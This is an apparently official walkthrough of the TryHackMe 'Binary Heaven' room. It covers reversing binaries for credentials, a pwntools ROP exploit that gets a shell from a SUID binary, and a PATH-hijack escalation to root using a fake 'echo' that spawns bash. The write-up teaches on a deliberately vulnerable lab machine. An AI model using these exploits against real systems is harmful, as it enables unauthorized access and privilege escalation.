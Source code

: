 ```yaml
---
author: swanandx, Lammm
title: "Binary Heaven Walk-through"
date: 2021-05-12
description: Official walkthrough for binary heaven room on THM.
tags: ["THM"]
ShowBreadCrumbs: true
---
```



# THM - Official Binary Heaven Walk-through

This is a THM room created by swanandx and Lammm that touches on exploiting binary. This is our first time creating a room and we hope you will enjoy it. 

Link to room: https://tryhackme.com/room/binaryheaven

## Task 1 - Deploy the machine
Like what the task suggested, deploy the VM and move on to Task 2.

## Task 2 - Being worthy
Upon downloading the task file, we get a zip file `credentials.zip`. Unzip it and we see 2 files, `angel_A` and `angel_B`, let's check them out. Running `file` command on both file suggest that they are executable. After some blind testing, we can conclude that if ran successfully, `angel_A` and `angel_B` should return `username` and `password`, respectively. 

Next step, analyze the binaries and figuring out the credentials.We can analyze the binaries using either `radare2`(CLI tool) or `ghidra`(GUI application).

### angel_A

Start analyzing the binary by running `r2 -d -A angel_A`. Next, we run `afl` to list all the functions. Then, if we were to disassemble a certain function, we could run `pdf @<function_name>`, `pdf @sym.main` in our case.

![](./images/r2.png#center)

As you can see in screen shot, it xor every character of our input with 4, and then adds 8 to it. Finally compares it with "kym\~humr". OR we can look at that address and get the hex values for it.

![](./images/r2_value.png#center)

write a script to first subtract 8 from it and then xor against 4.

```python
hex_values = [] #list of the values we got using r2 or ghidra

username = ""
for char in hex_values:
	username += chr((char - 8) ^ 4)
print(username)

```


### angel_B
Likewise, start analyzing the binary with `r2 -d -A angel_B`. You might notice that r2 takes forever when it comes to analyzing this binary, reason being is that this is not a binary written in a "usual" language; it's written in Golang. `pdf @sym.main.main` to disassemble the main function. 

![](./images/unknown.png#center)

If you looked carefully at the function, you would notice that the password is displayed in plain sight, followed by a bunch of gibberish. Supply the password to the binary and we were told `Now GO ahead and SSH into heaven`. 

Upon SSH into the VM with the credentials we got from earlier, we land at user `guardian`. Inspect the home directory and grab the `guardian_flag.txt`.

## Task 3 - Return to the origins
 There is another binary file named `pwn_me` and it has SUID bit set for  user `binexgod`. Therefore, a logical assumption at this point would be, exploiting this binary should escalate us to user `binexgod`.  

It leaks the address of system, so we can bypass ASLR. Now, we have to find the offset for rip.
we can use pwntools cyclic for creating it. Run `cyclic <length>`

Put the pattern in temporary file, open the binary in gdb and run it with supplying that pattern. This will cause segfault. Take the value it gave and use `cyclic -l value` to find the offset

![](./images/unknown.png.2#center)

Now we can automate the remaining ROP chain using pwntools.

```python
from pwn import *

elf = context.binary = ELF('./pwn_me')
libc = elf.libc
p = process()

#get the leaked address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

#set our libc address according to the leaked address
libc.address = system_leak - libc.sym['system']
log.success('LIBC base: {}'.format(hex(libc.address)))

#get location of binsh from libc
binsh = next(libc.search(b'/bin/sh'))

#build the rop chain
rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

#send our rop chain
p.sendline(rop.chain())

#Get the shell
p.interactive()
```

![](./images/unknown.png.3#center)


After successfully escalating from guardian to `binexgod`, we can go ahead and grab the `binexgod_flag.txt`.

## Task 4 - PATH to root
The only thing left for us to do is to privesc to root. We were given a `vuln` binary alongside its source code `vuln.c`, let's check them out.

By running the `vuln` binary, we get the output *Get out of heaven lol*. Let us examine the source code and see what's happening under the hood then.

We can see that on line 17, the code is running the `echo` command specifically from the env variable. Which means this binary is potentially affected by `environment variable manipulation` attack. Let's give this a try.

![](./images/unknown.png.4#center)

First, cd into /tmp directory and create a file called `echo.c` which contains the following code.

```c
#include<stdio.h>
#include<stdlib.h>

int main()
{
  system("/bin/bash");
}
```

Nothing fancy here, just a C program that upon execute, will give us a bash shell. We then compile this C program by running `gcc -o echo echo.c`. Note that the output binary must be named `echo` because we are trying to replace the "legit echo" binary.

Final step, export the `/tmp` directory to `PATH environment variable` by running `export PATH=/tmp:$PATH`. Note that the `/tmp` directory is placed before everything else, which means if 2 binaries with the same name exist on multiple directories, the system will execute the one mentioned first in the `PATH environment variable`, in our case, is the `/tmp` directory.

After completing all the steps above, we run the `vuln` binary again and we would get root shell successfully!

## Task 5 - Credit
Once again, we really thank you for spending time going through the room. We hope you learn something new.

- swanandx#8944, [Twitter](https://twitter.com/_swanandx), [THM](https://tryhackme.com/p/swanandx)
- Lammm#7495, [Twitter](https://twitter.com/Lammm_99), [THM](https://tryhackme.com/p/lammm)